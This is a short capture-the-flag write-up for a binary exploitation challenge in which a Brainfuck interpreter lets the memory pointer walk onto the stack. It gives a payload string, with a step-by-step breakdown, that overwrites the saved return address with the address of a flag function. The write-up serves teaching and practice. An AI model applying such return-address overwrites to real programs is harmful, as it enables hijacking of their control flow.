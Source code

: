 Running the binary with the input `"+"*4+"A"*140` gives us a stack a layout like this:

![](images/over_my_brain1.png)

Our plan is to change return address with the address of flag

The payload is:
`">"*8+"+["+">"*16+"-"*0x15+"]"+"<"*32+"[[-]>]<<<"+"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

1. Shift 8 bytes to right
   * `">"*8`
2. Move 16 bytes to right till you find the byte 0x15
   * `"+["+">"*16+"-"*0x15+"]"`
3. Move 32 bytes to left to land on the return address
   * `"<"*32`
4. Clear the return address
   * `"[[-]>]<<<"`
5. Modify the return address with the address of flag
   * `"+"*0x10+"[<++++<+<"+"+"*0xc+">>>-]<<+<++++++"`

![](images/over_my_brain2.png)

For the full solution, check [over_my_brain.py](over_my_brain.py)
